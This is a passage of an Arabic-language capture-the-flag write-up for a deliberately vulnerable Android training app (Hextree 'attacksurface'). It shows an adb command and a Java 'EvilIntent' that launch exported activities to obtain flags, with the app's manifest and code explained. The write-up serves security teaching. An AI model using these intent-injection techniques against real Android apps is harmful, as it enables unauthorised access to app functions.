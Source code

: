 ADB:

```shell
adb shell am start-activity io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag1Activity
```

### Flag 2

#### تحليل الكود

```xml
<activity
android:name="io.hextree.attacksurface.activities.Flag2Activity"
android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
   </intent-filter>
</activity>
```

هنا الـ Filter بيوضح إن الـ Activity ده بيسمع لـ **action string**: `io.hextree.action.GIVE_FLAG` و كده هيقدر يستقبل intent العنده  الـ action ده

```Java
protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        String action = getIntent().getAction();
        if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
            return;
        }
        this.f.addTag(action);
        success(this);
    } 
```

الـ Intent بيتستقبل بالـ  `getIntent()` والـ action بيتقرا ب  `getAction()`  وبعدين يتحفظ في string `action`، ثم يتشيك لو null (فاضي) أو مختلف عن الـ flag. لو كله تمام وسليم، `success()` بتتنادى.

#### الحل

نحط الـ flag و نحط الـ Package والـ activity name الصح

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag2Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
startActivity(EvilIntent);  
```

### Flag 3

